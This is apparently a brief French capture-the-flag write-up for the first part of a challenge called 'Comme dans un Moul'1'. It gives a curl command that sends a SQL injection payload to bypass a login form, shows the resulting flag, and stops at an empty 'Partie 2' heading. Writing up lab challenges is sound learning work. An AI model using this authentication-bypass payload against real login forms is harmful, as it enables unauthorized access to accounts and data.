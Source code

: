 # Comme dans un Moul'1
## Partie 1

Ici, on est face à un formulaire.  
Le premier réflexe pourrait être de tester si les inputs sont protégés contre les injections :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' OR 1=1 LIMIT 1#&password=" | grep INEAT
```

refexe somme toute plutôt efficace je dois dire : `<h1 class="corb-flag">INEAT{c0nn3xi0n_v4lid33}</h1>`

## Partie 2

